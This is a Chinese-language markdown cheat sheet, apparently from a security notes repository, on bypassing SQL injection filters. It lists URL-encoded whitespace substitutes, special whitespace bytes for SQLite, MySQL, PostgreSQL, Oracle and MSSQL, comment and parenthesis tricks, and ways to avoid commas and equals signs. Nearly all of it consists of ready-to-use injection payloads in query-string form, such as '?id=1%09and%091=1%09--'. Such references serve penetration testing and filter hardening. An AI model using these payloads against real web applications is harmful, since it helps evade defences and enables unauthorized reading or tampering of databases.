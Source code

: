 
## 常见绕过

### 空格绕过

**URL编码：**

- `%09` .Eg：`?id=1%09and%091=1%09--`
- `%0A` .Eg：`?id=1%0Aand%0A1=1%0A--`
- `%0B` .Eg：`?id=1%0Band%0B1=1%0B--`
- `%0C` .Eg：`?id=1%0Cand%0C1=1%0C--`
- `%0D` .Eg：`?id=1%0Dand%0D1=1%0D--`
- `%A0` .Eg：`?id=1%A0and%A01=1%A0--`
- `%A0` .Eg：`?id=1%A0and%A01=1%A0--`

**特定Hex：**

| 数据库     | 特殊字符Hex                                                  |
| :--------- | :----------------------------------------------------------- |
| SQLite3    | 0A, 0D, 0C, 09, 20                                           |
| MySQL 5    | 09, 0A, 0B, 0C, 0D, A0, 20                                   |
| MySQL 3    | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20                                           |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20                                       |
| MSSQL      | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

**注释和括号：**

**注释-1**：`?id=1/*comment*/AND/**/1=1/**/--`       

**注释-2**：`?id=1/*!12345UNION*//*!12345SELECT*/1--`

**括号-1**：`?id=(1)and(1)=(1)--`                    

### 逗号绕过

使用`OFFSET`、`FROM`和`JOIN`进行绕过。

| BAN                  | 绕过                                                         |
| :------------------ | :----------------------------------------------------------- |
| `LIMIT 0,1`         | `LIMIT 1 OFFSET 0`                                           |
| `SUBSTR('SQL',1,1)` | `SUBSTR('SQL' FROM 1 FOR 1)`                                 |
| `SELECT 1,2,3,4`    | `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d` |

### 等号绕过

使用LIKE/NOT IN/IN/BETWEEN进行绕过

| 绕过      | SQL示例                                    |
| :-------- | :----------------------------------------- |
| `LIKE`    | `SUBSTRING(VERSION(),1,1)LIKE(5)`          |
| `NOT IN`  | `SUBSTRING(VERSION(),1,1)NOT IN(4,3)`      |
| `IN`      | `SUBSTRING(VERSION(),1,1)IN(4,3)`          |
| `BETWEEN` | `SUBSTRING(VERSION(),1,1) BETWEEN 3 AND 4` |
